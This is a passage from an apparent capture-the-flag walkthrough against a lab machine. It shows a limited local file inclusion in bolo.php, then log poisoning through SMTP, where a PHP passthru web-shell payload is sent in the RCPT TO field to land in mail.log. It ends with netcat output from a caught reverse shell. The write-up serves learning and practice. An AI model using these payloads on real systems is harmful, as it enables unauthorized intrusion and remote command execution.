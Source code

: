 
We can see other members’ names here and they end with .log. We can deduce from this that the parameter we pass to the bolo is appended with .log and the file contents are displayed. To test this out I tried to visit http://192.168.56.102/turing-bolo/bolo.php?bolo=../turing-bolo/molly to see if it would take me to molly’s page and it did.

![11](https://github.com/user-attachments/assets/f82bc5a8-964e-4e4d-92dc-8a02a64acd8b)


From this we know that we have limited LFI. The query appends a .log to whatever argument we send to the bolo parameter. I tried to see if we needed relative referencing (../../) to read a file or if absolute paths worked, just as a way to the attack more efficient. I tried this using the url http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/www/html/turing-bolo/molly.

![12](https://github.com/user-attachments/assets/35630d7c-9bc0-48ac-a1bd-cf46f866d2c3)


That worked out and turns out we can use absolute paths and it loads the file.

I tried to use various techniques to make the .log be skipped, but none of them worked out. So I thought, if we can read some access logs or error logs we might be able to perform log poisoning.

I tried reading common log files to see if I could read anything, I got a hit at /var/log/mail.log

![13](https://github.com/user-attachments/assets/671b9ed9-a914-4250-a3d0-77691d3f1f3d)


Since we can view the mail.log file, all we need to get a web shell is by somehow making our php code end up over here. After looking at what is added to the mail.log I figured out my attack.

```bash
telnet 192.168.56.102 25
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
HELO choom
250 straylight
MAIL FROM:<choom@cyberpunk.com>
250 2.1.0 Ok
RCPT TO:<?php passthru($_GET['cmd']); ?>
501 5.1.3 Bad recipient address syntax
```

Let’s break down this attack.

What we did here is we sent our php code in the RCPT TO field with the incorrect syntax which will cause it to be logged in the mail.log file, which will run our php code.

Let’s go ahead and test it out

![14](https://github.com/user-attachments/assets/fce0b667-3434-4d59-98c7-af98159a73cd)


There we go, we now have a web shell. Let’s use this to get a reverse shell on the system.

```bash
nc -lvnp 4242         
listening on [any] 4242 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 50738
bash: cannot set terminal process group (579): Inappropriate ioctl for device
bash: no job control in this shell
www-data@straylight:/var/www/html/turing-bolo$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@straylight:/var/www/html/turing-bolo$
```
